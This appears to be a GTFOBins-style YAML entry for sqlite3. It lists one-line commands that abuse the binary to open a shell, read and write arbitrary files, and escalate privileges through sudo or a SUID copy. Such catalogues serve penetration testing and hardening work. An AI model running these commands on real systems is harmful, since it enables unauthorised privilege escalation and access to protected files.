```yaml
---
functions:
  execute-interactive:
    - code: sqlite3 /dev/null '.shell /bin/sh'
  file-write:
    - code: |
        LFILE=file_to_write
        sqlite3 /dev/null -cmd ".output $LFILE" 'select "data";'
  file-read:
    - code: |
        LFILE=file_to_read
        sqlite3 << EOF
        CREATE TABLE t(line TEXT);
        .import $LFILE t
        SELECT * FROM t;
        EOF
  sudo-enabled:
    - code: sudo sqlite3 /dev/null '.shell /bin/sh'
  suid-limited:
    - code: "./sqlite3 /dev/null '.shell /bin/sh'"
---
```

